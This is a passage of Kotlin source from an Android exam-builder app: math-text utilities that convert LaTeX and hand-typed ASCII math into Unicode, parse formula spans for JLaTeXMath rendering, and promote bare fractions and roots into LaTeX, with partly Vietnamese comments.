        "alpha" to "α", "beta" to "β", "gamma" to "γ", "delta" to "δ", "theta" to "θ",
        "pi" to "π", "phi" to "φ", "lambda" to "λ", "mu" to "μ", "omega" to "ω"
    )
    private const val GREEK_CHARS = "αβγδθπφλμω"
    private const val TRIG = "arcsin|arccos|arctan|sin|cos|tan|cot|sec|csc|log|ln"
    private val MATHBB = mapOf("R" to "ℝ", "N" to "ℕ", "Z" to "ℤ", "Q" to "ℚ", "C" to "ℂ")
    private val ROOTS = mapOf(2 to "√", 3 to "∛", 4 to "∜")

    private fun sup(digits: String) = digits.map { SUPERSCRIPT[it] ?: it }.joinToString("")
    private fun wrapIfExpression(s: String) = if (s.any { it == '+' || it == '-' }) "($s)" else s
    private fun wrapSqrtContent(s: String) = if (Regex("^[0-9]+$").matches(s)) s else "($s)"
    private fun rootSymbolFor(n: Int) = ROOTS[n] ?: (sup(n.toString()) + "√")

    private class Rule(val re: Regex, val fn: (MatchResult) -> CharSequence)

    private fun r(pattern: String, vararg opts: RegexOption, fn: (MatchResult) -> CharSequence) =
        Rule(Regex(pattern, opts.toSet()), fn)

    private val RULES: List<Rule> = listOf(
        // --- LaTeX commands that carry no payload ---
        r("""\\left""") { "" },
        r("""\\right""") { "" },

        // --- Greek letters ---
        r("""\\(alpha|beta|gamma|delta|theta|pi|phi|lambda|mu|omega)\b""") { m -> GREEK.getValue(m.groupValues[1]) },

        // --- trig / log function names (drop the backslash, keep the name) ---
        r("""\\(arcsin|arccos|arctan|sin|cos|tan|cot|sec|csc|log|ln|lim|min|max|exp)\b""") { m -> m.groupValues[1] },

        // --- implicit multiplication: "αcos" -> "α.cos" once the backslashes are gone ---
        r("""([${GREEK_CHARS}0-9)])($TRIG)\b""") { m -> m.groupValues[1] + "." + m.groupValues[2] },

        // --- multiplication / division / sign ---
        r("""\\cdot\b""") { "×" },
        r("""\\times\b""") { "×" },
        r("""\\div\b""") { "÷" },
        r("""\\pm\b""") { "±" },
        r("""\\mp\b""") { "∓" },

        // --- comparison / implication / set relations (command form) ---
        r("""\\ge\b""") { "≥" },
        r("""\\le\b""") { "≤" },
        r("""\\ne\b""") { "≠" },
        r("""\\Leftrightarrow\b""") { "⇔" },
        r("""\\Rightarrow\b""") { "⇒" },
        r("""\\Leftarrow\b""") { "⇐" },
        r("""\\to\b""") { "→" },
        r("""\\in\b""") { "∈" },
        r("""\\notin\b""") { "∉" },

        // --- \mathbb{X} -> blackboard-bold letters for the usual number sets ---
        r("""\\mathbb\{([^{}]*)\}""") { m -> MATHBB[m.groupValues[1]] ?: m.groupValues[1] },

        // --- degrees (^\circ, ^{\circ}, or a lone \circ) ---
        r("""\^\{?\\circ\}?""") { "°" },
        r("""\\circ\b""") { "°" },

        // --- \text{...} keeps only its content ---
        r("""\\text\{([^{}]*)\}""") { m -> m.groupValues[1] },

        // --- \widehat{X} -> X + combining circumflex ---
        r("""\\widehat\{([^{}]*)\}""") { m -> m.groupValues[1] + "\u0302" },

        // --- nth root \sqrt[n]{x} (must run before plain \sqrt{...}) ---
        r("""\\sqrt\[([0-9]+)\]\{([^{}]*)\}""") { m -> rootSymbolFor(m.groupValues[1].toInt()) + wrapSqrtContent(m.groupValues[2]) },

        // --- square root ---
        r("""\\sqrt\{([^{}]*)\}""") { m -> "√" + wrapSqrtContent(m.groupValues[1]) },

        // --- fraction \frac{a}{b} -> a/b (parenthesise a sum/difference) ---
        r("""\\frac\{([^{}]*)\}\{([^{}]*)\}""") { m -> wrapIfExpression(m.groupValues[1]) + "/" + wrapIfExpression(m.groupValues[2]) },

        // --- drop the $ delimiters (we render Unicode, not real LaTeX) ---
        r("""\$""") { "" },

        // --- hand-typed ASCII: longer sequences before their prefixes ---
        r("""<=>""") { "⇔" },
        r("""<->""") { "↔" },
        r("""=>""") { "⇒" },
        r("""->""") { "→" },
        r("""<=""") { "≤" },
        r(""">=""") { "≥" },
        r("""!=""") { "≠" },
        r("""\+-""") { "±" },
        r("""sqrt\(""", RegexOption.IGNORE_CASE) { "√(" },
        r("""\b(mm|cm|dm|km|m)([0-9])\b""", RegexOption.IGNORE_CASE) { m ->
            m.groupValues[1] + (SUPERSCRIPT[m.groupValues[2][0]] ?: m.groupValues[2][0])
        },
        r("""\^([0-9]+)""") { m -> sup(m.groupValues[1]) },
        r("""([a-zA-Z0-9)])\s*\*\s*([a-zA-Z0-9(])""") { m -> m.groupValues[1] + " × " + m.groupValues[2] }
    )

    private fun applyRules(text: String): String {
        // Iterate to a fixed point: nested constructs (a root inside a root)
        // need several passes because one pass only resolves the inner-most
        // `{...}`-free layer.
        var result = text
        repeat(5) {
            val next = RULES.fold(result) { acc, rule -> rule.re.replace(acc, rule.fn) }
            if (next == result) return next
            result = next
        }
        return result
    }

    /**
     * Full flatten, including everything inside `$...$`. Mirrors the web's
     * `latexToPlainText()`. Use this for exports (PDF / Word) and anywhere a
     * plain [String] is needed. Tolerant of malformed input such as an
     * unclosed `$2x^2` — the stray `$` is simply removed.
     */
    fun toPlainText(text: String?): String {
        if (text.isNullOrEmpty()) return ""
        return applyRules(text)
    }

    private val MATH_SPAN = Regex("""\$\$[^$]+\$\$|\$[^$]+\$""")

    /**
     * Boc moi cau truc toan 2 chieu ngoai `$...$` thanh `$...$` / `$$...$$`
     * LaTeX chuan (can, phan so, can bac n, he phuong trinh...). Port cua web
     * `promoteStructuralMath` - xem [MathPromote]. Idempotent.
     */
    fun promoteStructuralMath(text: String?): String = MathPromote.promote(text)

    /**
     * Convert hand-typed ASCII math OUTSIDE `$...$` to Unicode while keeping
     * every `$...$` span verbatim (delimiters included). Mirrors the web's
     * `formatMathSymbols()` — step 1 boc cau truc 2 chieu thanh `$...$`
     * (promoteStructuralMath), step 2 lam dep ky hieu 1 hang o vung ngoai
     * `$...$`. Dung khi normalising text go vao editor.
     */
    fun normalizeInput(text: String?): String {
        if (text.isNullOrEmpty()) return ""
        val promoted = promoteStructuralMath(text)
        val sb = StringBuilder()
        var last = 0
        for (m in MATH_SPAN.findAll(promoted)) {
            if (m.range.first > last) sb.append(applyRules(promoted.substring(last, m.range.first)))
            sb.append(m.value)
            last = m.range.last + 1
        }
        sb.append(applyRules(promoted.substring(last)))
        return sb.toString()
    }

    enum class Script { NONE, SUPER, SUB }
    data class Span(val text: String, val script: Script)

    /**
     * Flatten, then split into runs — lifting `^{...}` / `_{...}` (and the
     * single-token `^x` / `_x` forms) into [Script.SUPER] / [Script.SUB] runs
     * so a renderer can draw them raised / lowered and smaller.
     */
    fun segments(text: String?): List<Span> {
        val flat = toPlainText(text)
        if (flat.isEmpty()) return emptyList()
        val out = ArrayList<Span>()
        val buf = StringBuilder()
        fun flush() {
            if (buf.isNotEmpty()) {
                out.add(Span(buf.toString(), Script.NONE)); buf.setLength(0)
            }
        }
        var i = 0
        while (i < flat.length) {
            val c = flat[i]
            if ((c == '^' || c == '_') && i + 1 < flat.length) {
                val token = readScriptToken(flat, i + 1)
                if (token != null) {
                    flush()
                    out.add(Span(token.first, if (c == '^') Script.SUPER else Script.SUB))
                    i = token.second
                    continue
                }
            }
            buf.append(c)
            i++
        }
        flush()
        return out
    }

    /** @return (token, indexAfterToken) or null when there is nothing scriptable. */
    private fun readScriptToken(s: String, start: Int): Pair<String, Int>? {
        if (start >= s.length) return null
        return when (s[start]) {
            '{' -> readBalanced(s, start, '{', '}')
            '(' -> readBalanced(s, start, '(', ')')?.let { (inner, next) -> "($inner)" to next }
            ' ', '\t', '\n', '^', '_' -> null
            else -> s[start].toString() to (start + 1)
        }
    }

    private fun readBalanced(s: String, open: Int, o: Char, c: Char): Pair<String, Int>? {
        var depth = 1
        var j = open + 1
        val sb = StringBuilder()
        while (j < s.length && depth > 0) {
            val ch = s[j]
            if (ch == o) depth++
            else if (ch == c) {
                depth--
                if (depth == 0) return sb.toString() to (j + 1)
            }
            sb.append(ch)
            j++
        }
        return null
    }
}

```

### FILE: Exam builder for adr/app/src/main/java/com/exambuilder/android/math/MathParser.kt

```kotlin
package com.exambuilder.android.math

/**
 * Splits a question / option / explanation string into plain-text runs and
 * LaTeX formulas so each can be rendered by the right engine:
 *
 *  - plain text  -> Compose [androidx.compose.material3.Text] (system font,
 *    full Vietnamese coverage). Hand-typed ASCII math in it is still upgraded
 *    to Unicode by [MathConvert].
 *  - formula     -> JLaTeXMath, which does real 2-D typesetting (fraction
 *    bars, radicals with a vinculum, `\begin{cases}` systems, matrices, …).
 *
 * Recognised formula delimiters:
 *  - `$$ … $$`                     -> block formula (own line, centred)
 *  - `$ … $`                       -> inline formula
 *  - bare `\begin{env} … \end{env}` for a known math env -> block formula
 *    (AI / users often paste these without `$`).
 *
 * Pure JVM (no Android imports) so it is unit-testable.
 */
sealed interface MathNode {
    data class Text(val text: String) : MathNode
    data class Formula(val latex: String, val block: Boolean) : MathNode
}

private val BLOCK_ENVIRONMENTS = setOf(
    "cases", "matrix", "pmatrix", "bmatrix", "Bmatrix", "vmatrix", "Vmatrix",
    "array", "aligned", "align", "align*", "alignedat", "gathered", "gather", "gather*", "split", "equation", "equation*"
)

private val BEGIN_ENV = Regex("""\\begin\{([A-Za-z*]+)\}""")

fun parseMathNodes(raw: String?): List<MathNode> {
    if (raw.isNullOrEmpty()) return emptyList()
    // Buoc 1: quy MOI cau truc toan 2 chieu ngoai $...$ ve $...$ / $$...$$
    // LaTeX chuan (giao vien go "sqrt(16)", "3/4"; de cu bi lam phang "√80";
    // AI sinh thieu $...). Sau day fast-path trong MathText tu nhuong sang
    // duong JLaTeXMath khi co cau truc that. Port cua web formatMathSymbols.
    val promoted = MathConvert.promoteStructuralMath(raw)
    val out = ArrayList<MathNode>()
    var i = 0
    val n = promoted.length
    val plain = StringBuilder()

    fun flushPlain() {
        if (plain.isNotEmpty()) {
            out.add(MathNode.Text(plain.toString()))
            plain.setLength(0)
        }
    }

    while (i < n) {
        // ---- $$ ... $$ (block) ----
        if (promoted.startsWith("$$", i)) {
            val end = promoted.indexOf("$$", i + 2)
            if (end >= 0) {
                flushPlain()
                out.add(MathNode.Formula(promoted.substring(i + 2, end).trim(), block = true))
                i = end + 2
                continue
            }
        }
        // ---- $ ... $ (inline) ----
        if (promoted[i] == '$') {
            val end = promoted.indexOf('$', i + 1)
            if (end > i) {
                val body = promoted.substring(i + 1, end).trim()
                flushPlain()
                out.add(MathNode.Formula(body, block = looksLikeBlock(body)))
                i = end + 1
                continue
            }
        }
        // ---- bare \begin{env} ... \end{env} ----
        val beginMatch = BEGIN_ENV.matchAt(promoted, i)
        if (beginMatch != null) {
            val env = beginMatch.groupValues[1]
            val endTag = "\\end{$env}"
            val endIdx = promoted.indexOf(endTag, beginMatch.range.last + 1)
            if (endIdx >= 0) {
                flushPlain()
                val latex = promoted.substring(i, endIdx + endTag.length).trim()
                out.add(MathNode.Formula(latex, block = true))
                i = endIdx + endTag.length
                continue
            }
        }
        plain.append(promoted[i])
        i++
    }
    flushPlain()
    return out
}

private fun looksLikeBlock(latex: String): Boolean {
    val env = BEGIN_ENV.find(latex)?.groupValues?.get(1)
    return env != null && env in BLOCK_ENVIRONMENTS
}

/** True when [text] has anything worth handing to a math renderer. */
fun hasMath(text: String?): Boolean =
    !text.isNullOrEmpty() && parseMathNodes(text).any { it is MathNode.Formula }

/**
 * A run of nodes to lay out together: an [Inline] group flows as one line of
 * text (prose + inline formulas), a [Block] formula stands on its own row.
 */
sealed interface MathGroup {
    data class Block(val latex: String) : MathGroup
    data class Inline(val nodes: List<MathNode>) : MathGroup
}

fun groupMathNodes(nodes: List<MathNode>): List<MathGroup> {
    val out = ArrayList<MathGroup>()
    val buffer = ArrayList<MathNode>()
    fun flush() {
        if (buffer.isNotEmpty()) {
            out.add(MathGroup.Inline(buffer.toList()))
            buffer.clear()
        }
    }
    nodes.forEach { node ->
        if (node is MathNode.Formula && node.block) {
            flush()
            out.add(MathGroup.Block(node.latex))
        } else {
            buffer.add(node)
        }
    }
    flush()
    return out
}

```

### FILE: Exam builder for adr/app/src/main/java/com/exambuilder/android/math/MathPromote.kt

```kotlin
package com.exambuilder.android.math

import java.text.Normalizer

/**
 * Port cua backend/parser/mathToLatex.js - giu dong bo tung buoc.
 *
 * "Nang cap" moi cau truc toan 2 CHIEU (can, phan so, can bac n, luy thua
 * chong...) nam NGOAI $...$ thanh cong thuc LaTeX $...$ / $$...$$ chuan, de
 * JLaTeXMath (APK) / KaTeX (web) ve THAT. Ky hieu 1 hang (x^2, <=, ×, do,
 * chu Hy Lap) GIU NGUYEN - MathConvert.RULES lo phan lam dep do sau.
 *
 * IDEMPOTENT: promoteStructuralMath(promoteStructuralMath(x)) == promoteStructuralMath(x).
 *
 * "Hop dong" JS <-> Kotlin: tests/parser/mathPromoteVectors.json (ban Kotlin
 * trong app/src/test/.../MathPromoteTest.kt). Sua bo chuan hoa -> sua CA 2 ben
 * + bang vector.
 *
 * Thuan JVM - KHONG import Android/Compose (de unit-test duoc).
 */
object MathPromote {

    private val SUP_TO_DIGIT: Map<Char, Char> = mapOf(
        '\u2070' to '0', '\u00B9' to '1', '\u00B2' to '2', '\u00B3' to '3', '\u2074' to '4',
        '\u2075' to '5', '\u2076' to '6', '\u2077' to '7', '\u2078' to '8', '\u2079' to '9'
    )
    private val SUPERSCRIPTS = SUP_TO_DIGIT.keys.joinToString("")

    // -----------------------------------------------------------------------
    // Tien ich chung
    // -----------------------------------------------------------------------

    // Dau ")" khop voi "(" tai openIndex (co tinh long nhau). Port cua
    // mathRadical.js :: findMatchingParen.
    private fun findMatchingParen(text: String, openIndex: Int): Int {
        var depth = 0
        for (i in openIndex until text.length) {
            when (text[i]) {
                '(' -> depth++
                ')' -> { depth--; if (depth == 0) return i }
            }
        }
        return -1
    }

    // Dau "}" khop voi "{" tai openIndex (co tinh long nhau).
    private fun matchBrace(s: String, openIndex: Int): Int {
        var depth = 0
        for (i in openIndex until s.length) {
            when (s[i]) {
                '{' -> depth++
                '}' -> { depth--; if (depth == 0) return i }
            }
        }
        return -1
    }

    // Kotlin Regex khong co replaceFirst(input) { transform } - tu lam (mirror
    // JS String.replace(regexKhongCoG, fn) chi thay khop DAU tien).
    private inline fun Regex.replaceFirstMatch(input: String, transform: (MatchResult) -> CharSequence): String {
        val m = find(input) ?: return input
        return input.substring(0, m.range.first) + transform(m) + input.substring(m.range.last + 1)
    }

    private val DOLLAR_WRAP = Regex("""^\$([\s\S]*)\$$""")

    // Bo dung 1 lop $...$ bao ngoai (neu co) va 1 lop (...) bao tron ngoai.
    private fun unwrap(term: String): String {
        var s = term.trim()
        DOLLAR_WRAP.find(s)?.let { s = it.groupValues[1].trim() }
        if (s.startsWith("(") && findMatchingParen(s, 0) == s.length - 1) s = s.substring(1, s.length - 1).trim()
        return s
    }

    private fun plainOf(term: String) = unwrap(term)

    // -----------------------------------------------------------------------
    // isLikelyFraction - port cua backend/parser/mathFraction.js
    // -----------------------------------------------------------------------

    private val FRACTION_BLOCKLIST = setOf(
        "va", "hoac", "hay", "la", "khong", "co", "du", "neu", "thi", "cung",
        "nhung", "nen", "do", "vi", "ma", "nhu", "tuy"
    )
    private val UNIT_TOKENS = setOf(
        "km", "hm", "dam", "m", "dm", "cm", "mm",
        "kg", "hg", "dag", "g", "dg", "cg", "mg", "t",
        "kl", "hl", "dal", "l", "dl", "cl", "ml",
        "h", "s", "ph", "gio", "phut", "giay",
        "m2", "cm2", "mm2", "km2", "dm2", "ha",
        "m3", "cm3", "mm3", "km3", "dm3",
        "mol", "w", "j", "pa", "v", "a", "hz", "ohm"
    )
    private val COMBINING_MARK = Regex("""\p{M}+""")

    private fun stripDiacritics(s: String): String =
        Normalizer.normalize(s, Normalizer.Form.NFD).replace(COMBINING_MARK, "").lowercase()

    private fun normalizeUnitToken(s: String): String =
        stripDiacritics(s).replace("\u00B2", "2").replace("\u00B3", "3")

    private fun isUnitPair(a: String, b: String): Boolean =
        UNIT_TOKENS.contains(normalizeUnitToken(a)) && UNIT_TOKENS.contains(normalizeUnitToken(b))

    private val LOWER_WORD = Regex("""^\p{Ll}+$""")
    private fun isLikelyProseWord(s: String) = LOWER_WORD.matches(s) && s.length >= 3

    private fun isLikelyFraction(rawNum: String, rawDen: String): Boolean {
        val num = rawNum.trim()
        val den = rawDen.trim()
        if (num.isEmpty() || den.isEmpty()) return false
        if (FRACTION_BLOCKLIST.contains(stripDiacritics(num)) || FRACTION_BLOCKLIST.contains(stripDiacritics(den))) return false
        if (isLikelyProseWord(num) || isLikelyProseWord(den)) return false
        if (isUnitPair(num, den)) return false
        return true
    }

    // -----------------------------------------------------------------------
    // bareToLatex: doi 1 bieu thuc toan tho (KHONG con $) sang than LaTeX
    // -----------------------------------------------------------------------

    private val SQRT_CALL = Regex("""\\?sqrt\s*\(""", RegexOption.IGNORE_CASE)

    private fun replaceSqrtCalls(s: String): String {
        val m = SQRT_CALL.find(s) ?: return s
        val open = s.indexOf('(', m.range.first)
        val close = findMatchingParen(s, open)
        if (close < 0) {
            val cut = m.range.first + m.value.length
            return s.substring(0, cut) + replaceSqrtCalls(s.substring(cut))
        }
        val inner = bareToLatex(s.substring(open + 1, close))
        return s.substring(0, m.range.first) + "\\sqrt{$inner}" + replaceSqrtCalls(s.substring(close + 1))
    }

    private val RADICAL_RE = Regex("""([\u2070\u00B9\u00B2\u00B3\u2074\u2075\u2076\u2077\u2078\u2079]*)([\u221A\u221B\u221C])""")

    private fun replaceUnicodeRadicals(s: String): String {
        val m = RADICAL_RE.find(s) ?: return s
        val full = m.value
        val sup = m.groupValues[1]
        val sym = m.groupValues[2]
        val after = m.range.first + full.length
        var index: String? = when (sym) { "\u221B" -> "3"; "\u221C" -> "4"; else -> null }
        if (sup.isNotEmpty()) index = sup.map { SUP_TO_DIGIT[it] }.joinToString("")

        var inner: String? = null
        var end = after
        if (after < s.length && s[after] == '(') {
            val close = findMatchingParen(s, after)
            if (close >= 0) { inner = bareToLatex(s.substring(after + 1, close)); end = close + 1 }
        } else {
            val dm = Regex("""^([0-9]+|[A-Za-z])""").find(s.substring(after))
            if (dm != null) { inner = bareToLatex(dm.groupValues[1]); end = after + dm.groupValues[1].length }
        }
        if (inner == null) {
            return s.substring(0, after) + replaceUnicodeRadicals(s.substring(after))
        }
        val body = "\\sqrt" + (if (index != null) "[$index]" else "") + "{$inner}"
        return s.substring(0, m.range.first) + body + replaceUnicodeRadicals(s.substring(end))
    }

    private val SUPERSCRIPT_RUN = Regex("""[\u2070\u00B9\u00B2\u00B3\u2074\u2075\u2076\u2077\u2078\u2079]+""")
    private val CARET_TOKEN = Regex("""\^(?!\{)([0-9]+|[A-Za-z])""")

    // \u00B2 \u00B3 ... -> ^{2} ; ^12 -> ^{12} ; ^x -> ^{x} ; ^{...} giu nguyen.
    private fun liftSuperscripts(input: String): String {
        var s = SUPERSCRIPT_RUN.replace(input) { mr -> "^{" + mr.value.map { SUP_TO_DIGIT[it] }.joinToString("") + "}" }
        s = CARET_TOKEN.replace(s) { mr -> "^{" + mr.groupValues[1] + "}" }
        return s
    }

    private val MULTI_SPACE = Regex("""\s{2,}""")
    private val STAR_OP = Regex("""\s*\*\s*""")

    private fun bareToLatex(expr: String, keepOuterParens: Boolean = false): String {
        var s = expr.trim()
        DOLLAR_WRAP.find(s)?.let { s = it.groupValues[1].trim() }
        // Ngoac don giao vien go quanh 1 ve phan so mang y nghia gom nhom ->
        // giu nguyen. Chi bo khi KHONG phai ve phan so va ngoac boc tron.
        if (!keepOuterParens && s.startsWith("(") && findMatchingParen(s, 0) == s.length - 1) {
            s = s.substring(1, s.length - 1).trim()
        }
        if (s.isEmpty()) return ""
        s = s.replace("$", "")
        if (s.isBlank()) return ""
        s = replaceSqrtCalls(s)
        s = replaceUnicodeRadicals(s)
        s = convertInnerFractions(s)
        s = liftSuperscripts(s)
        // LUU Y: Regex.replace(input, String) coi "\" trong replacement la ky
        // tu escape -> "\\times" bi an mat "\". Dung dang lambda.
        s = STAR_OP.replace(s) { " \\times " }
            .replace("\u00D7", " \\times ").replace("\u00F7", " \\div ").replace("\u00B7", " \\cdot ")
            .replace("\u00B1", " \\pm ").replace("\u2213", " \\mp ")
            .replace("\u2264", " \\le ").replace("\u2265", " \\ge ").replace("\u2260", " \\ne ")
        return MULTI_SPACE.replace(s, " ").trim()
    }

    // Phan so ben TRONG mot bieu thuc da la LaTeX body. Chi bat dang gon/gon.
    private const val INNER_TERM = """\([^()]*\)|\\sqrt(?:\[[0-9]+\])?\{[^{}]*\}|[0-9A-Za-z.^{}]+"""
    private val INNER_FRACTION = Regex("""($INNER_TERM)/($INNER_TERM)""")

    private fun convertInnerFractions(input: String): String {
        var s = input
        var prev: String? = null
        while (prev != s) {
            prev = s
            s = INNER_FRACTION.replaceFirstMatch(s) { m ->
                val a = m.groupValues[1]; val b = m.groupValues[2]
                if (!isLikelyFraction(unwrap(a), unwrap(b))) m.value
                else "\\frac{" + bareToLatex(a) + "}{" + bareToLatex(b) + "}"
            }
        }
        return s
    }

    // -----------------------------------------------------------------------
    // promoteStructuralMath: boc cau truc thanh $...$
    // -----------------------------------------------------------------------

    private val DOLLAR_SPAN = Regex("""\$\$[^$]*\$\$|\$[^$]+\$""")

    private data class Part(val math: Boolean, val value: String)

    private fun splitProtected(text: String): List<Part> {
        val parts = ArrayList<Part>()
        var last = 0
        for (m in DOLLAR_SPAN.findAll(text)) {
            if (m.range.first > last) parts.add(Part(false, text.substring(last, m.range.first)))
            parts.add(Part(true, m.value))
            last = m.range.last + 1
        }
        if (last < text.length) parts.add(Part(false, text.substring(last)))
        return parts
    }

    private val LATEX_CMD = Regex("""\\(?:sqrt|dfrac|tfrac|frac)\b""")
    private val LATEX_CMD_NAME = Regex("""^\\(sqrt|dfrac|tfrac|frac)""")
    private val TAIL_SCRIPT = Regex("""^(?:\s*[\^_](?:\{[^{}]*\}|[A-Za-z0-9]))+""")
    private val WS = Regex("""\s""")

    // Buoc 1: \sqrt{...}, \sqrt[n]{...}, \frac{...}{...} da hop le -> chi them $.
    private fun wrapLatexCommands(s: String): String {
        val m = LATEX_CMD.find(s) ?: return s
        val start = m.range.first
        val name = LATEX_CMD_NAME.find(s.substring(start))!!.groupValues[1]
        val nArgs = if (name == "sqrt") 1 else 2
        var i = start + m.value.length
        if (name == "sqrt" && i < s.length && s[i] == '[') {
            val rb = s.indexOf(']', i)
            if (rb < 0) return s.substring(0, i) + wrapLatexCommands(s.substring(i))
            i = rb + 1
        }
        repeat(nArgs) {
            while (i < s.length && WS.matches(s[i].toString())) i++
            if (i >= s.length || s[i] != '{') return s.substring(0, i) + wrapLatexCommands(s.substring(i))
            val rb = matchBrace(s, i)
            if (rb < 0) return s.substring(0, i) + wrapLatexCommands(s.substring(i))
            i = rb + 1
        }
        TAIL_SCRIPT.find(s.substring(i))?.let { i += it.value.length }
        val wrapped = "$" + s.substring(start, i).trim() + "$"
        return s.substring(0, start) + wrapped + wrapLatexCommands(s.substring(i))
    }

    // Buoc 2: sqrt(...) ASCII -> $\sqrt{...}$
    private fun wrapSqrtCalls(s: String): String {
        val m = SQRT_CALL.find(s) ?: return s
        val open = s.indexOf('(', m.range.first)
        val close = findMatchingParen(s, open)
        if (close < 0) {
            val cut = m.range.first + m.value.length
            return s.substring(0, cut) + wrapSqrtCalls(s.substring(cut))
        }
        val inner = bareToLatex(s.substring(open + 1, close))
        return s.substring(0, m.range.first) + "\$\\sqrt{$inner}\$" + wrapSqrtCalls(s.substring(close + 1))
    }

    // Buoc 3: \u221A.. / \u221B.. / \u221C.. / superscript\u221A.. -> $\sqrt[n]{...}$
    private fun wrapUnicodeRadicals(s: String): String {
        val m = RADICAL_RE.find(s) ?: return s
        val full = m.value
        val sup = m.groupValues[1]
        val sym = m.groupValues[2]
        val after = m.range.first + full.length
        var index: String? = when (sym) { "\u221B" -> "3"; "\u221C" -> "4"; else -> null }
        if (sup.isNotEmpty()) index = sup.map { SUP_TO_DIGIT[it] }.joinToString("")

        var inner: String? = null
        var end = after
        if (after < s.length && s[after] == '(') {
            val close = findMatchingParen(s, after)
            if (close >= 0) { inner = bareToLatex(s.substring(after + 1, close)); end = close + 1 }
        } else {
            val dm = Regex("""^([0-9]+|[A-Za-z])""").find(s.substring(after))
            if (dm != null) { inner = bareToLatex(dm.groupValues[1]); end = after + dm.groupValues[1].length }
        }
        if (inner == null) return s.substring(0, after) + wrapUnicodeRadicals(s.substring(after))

        val body = "\$\\sqrt" + (if (index != null) "[$index]" else "") + "{$inner}\$"
        return s.substring(0, m.range.first) + body + wrapUnicodeRadicals(s.substring(end))
    }

    // Buoc 4: he so dung truoc cum $...$ ("2$\sqrt{3}$" -> "$2\sqrt{3}$").
    private val LEADING_COEFF = Regex("""(^|[^\\A-Za-z0-9$])([0-9]+)\$(\\[^$]+)\$""")
    private fun absorbLeadingCoefficient(s: String): String =
        LEADING_COEFF.replace(s) { m -> m.groupValues[1] + "$" + m.groupValues[2] + m.groupValues[3] + "$" }

    // Buoc 5: ngoac don om sat cum $...$ ("($2\sqrt{3}$)" -> "$(2\sqrt{3})$").
    private val HUGGING_PARENS = Regex("""\(([-+0-9\s*\u00D7\u00F7\u00B7]*)\$([^$]+)\$([-+0-9\s*\u00D7\u00F7\u00B7]*)\)""")
    private fun absorbHuggingParens(s: String): String =
        HUGGING_PARENS.replace(s) { m ->
            val left = bareToLatex(m.groupValues[1])
            val right = bareToLatex(m.groupValues[3])
            val joined = listOf(left, m.groupValues[2], right).filter { it.isNotEmpty() }
                .joinToString(" ").let { MULTI_SPACE.replace(it, " ") }.trim()
            "\$($joined)\$"
        }

    // Buoc 6: phan so bac ngang qua cac cum $...$.
    private const val FRAC_TERM =
        """\$[^$]+\$|\([^()]*\)|[0-9A-Za-z][0-9A-Za-z.]*|[\u2070\u00B9\u00B2\u00B3\u2074\u2075\u2076\u2077\u2078\u2079]+"""
    private val FRAC_RE = Regex(
        """(?<![\p{L}\p{M}])($FRAC_TERM)(\s{0,2})/(\s{0,2})($FRAC_TERM)(?![\p{L}\p{M}])"""
    )
    private val STRUCTURAL = Regex("""[$\u221A\u221B\u221C]|\\sqrt|\\[dt]?frac""")
    private val REF_WORD = Regex("""(?:cau|bai|trang|hinh|sgk|sbt|ngay)\s*$""")
    private val DOLLAR_STRIP = Regex("""^\$([\s\S]*)\$$""")

    private fun precededByReferenceWord(s: String, idx: Int): Boolean {
        val start = maxOf(0, idx - 16)
        val ctx = stripDiacritics(s.substring(start, idx))
        return REF_WORD.containsMatchIn(ctx)
    }

    private fun innerOf(t: String) = DOLLAR_STRIP.find(t)?.groupValues?.get(1) ?: t
    private fun tight(t: String) = !WS.containsMatchIn(innerOf(t))
    private fun hasStruct(t: String) = STRUCTURAL.containsMatchIn(t)

    private fun mergeFractions(s: String): String {
        val out = StringBuilder()
        var last = 0
        var searchFrom = 0
        while (true) {
            val m = FRAC_RE.find(s, searchFrom) ?: break
            val num = m.groupValues[1]
            val den = m.groupValues[4]
            val eligible = isLikelyFraction(plainOf(num), plainOf(den)) &&
                !precededByReferenceWord(s, m.range.first) &&
                (hasStruct(num) || hasStruct(den) || (tight(num) && tight(den)))
            if (!eligible) {
                searchFrom = m.range.first + num.length + 1
                continue
            }
            out.append(s, last, m.range.first)
                .append("\$\\frac{").append(bareToLatex(num, true))
                .append("}{").append(bareToLatex(den, true)).append("}\$")
            last = m.range.first + m.value.length
            searchFrom = last
        }
        out.append(s, last, s.length)
        return out.toString()
    }

    // Buoc 7: gop cac cum $...$ ke nhau qua toan tu / khoang trang.
    private val ADJACENT_SPANS = Regex("""\$([^$]+)\$([ \t]+|[ \t]*[-+=*\u00D7\u00F7\u00B7][ \t]*)\$([^$]+)\$""")
    private fun mergeAdjacentSpans(input: String): String {
        var s = input
        var prev: String? = null
        while (prev != s) {
            prev = s
            s = ADJACENT_SPANS.replaceFirstMatch(s) { m ->
                val op = m.groupValues[2]
                    .replace("*", " \\times ").replace("\u00D7", " \\times ")
                    .replace("\u00F7", " \\div ").replace("\u00B7", " \\cdot ").trim()
                "$" + m.groupValues[1].trim() + (if (op.isNotEmpty()) " $op " else " ") + m.groupValues[3].trim() + "$"
            }
        }
        return s
    }

    // Buoc 8: nuot toan hang tran ("= 4", "+ 2") ngay sau cum $...$ vao trong.
    private const val TRAILING_OPERAND = """-?\d+(?:[.,]\d+)?|\([-+\d\s*/\u00D7\u00F7\u00B7.]+\)"""
    private val TRAILING_RE = Regex(
        """\$([^$]+)\$([ \t]*[-+=*\u00D7\u00F7\u00B7][ \t]*)($TRAILING_OPERAND)(?![\w\u00B2\u00B3\u2070\u00B9\u2074\u2075\u2076\u2077\u2078\u2079])"""
    )
    private fun absorbTrailingOperand(input: String): String {
        var s = input
        var prev: String? = null
        while (prev != s) {
            prev = s
            s = TRAILING_RE.replace(s) { m ->
                "$" + m.groupValues[1].trim() + " " + m.groupValues[2].trim() + " " + m.groupValues[3].trim() + "$"
            }
        }
        return s
    }

    // Buoc 0: \begin{env}...\end{env} tran ngoai $...$ -> $$...$$ (block).
    private val BLOCK_ENVS = setOf(
        "cases", "matrix", "pmatrix", "bmatrix", "Bmatrix", "vmatrix", "Vmatrix",
        "array", "aligned", "align", "align*", "alignedat", "gathered", "gather",
        "gather*", "split", "equation", "equation*"
    )
    private val BEGIN_ENV = Regex("""\\begin\{([A-Za-z]+\*?)\}""")

    private fun wrapBlockEnvironments(text: String): String =
        splitProtected(text).joinToString("") { p ->
            if (p.math) return@joinToString p.value
            val s = p.value
            val out = StringBuilder()
            var cursor = 0
            var searchFrom = 0
            while (true) {
                val m = BEGIN_ENV.find(s, searchFrom) ?: break
                if (m.range.first < cursor || !BLOCK_ENVS.contains(m.groupValues[1])) {
                    searchFrom = m.range.first + m.value.length
                    continue
                }
                val endTag = "\\end{" + m.groupValues[1] + "}"
